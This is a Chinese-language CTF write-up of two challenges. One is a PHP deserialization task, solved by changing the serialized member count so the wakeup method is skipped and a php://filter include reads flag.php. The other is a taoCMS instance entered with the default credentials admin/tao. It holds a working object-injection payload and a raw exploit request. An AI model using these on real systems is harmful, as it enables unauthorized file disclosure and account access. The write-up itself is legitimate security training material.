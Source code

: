 ### [WEEK2]no_wake_up

```
<?php
class flag
{
  public $username = "admin";
  public $code = "php://filter/read=convert.base64-encode/resource=flag.php";
  public function _wakeup()
  {
​    $this->username = "admin";
  }
  public function __destruct()
  {
​    if ($this->username = "admin") {
​      include($this->code);
​    }
  }
}
$a= (serialize(new flag));
echo $a;
```

然后将payload中反序列化的成员数2改成比2大的数

```
GET /wakeup.php?try=O:4:"flag":3:{s:8:"username";s:5:"admin";s:4:"code";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";} HTTP/1.1
Host: 112.6.51.212:30930
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://112.6.51.212:30930/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![img](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/wps45.jpg) 

Base解码得到flag

### [WEEK2]EasyCMS

进入url/admin/admin.php

查到taoCMS登录弱口令admin/tao

![img](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/wps46.jpg) 

随后在文件管理处找到flag位置
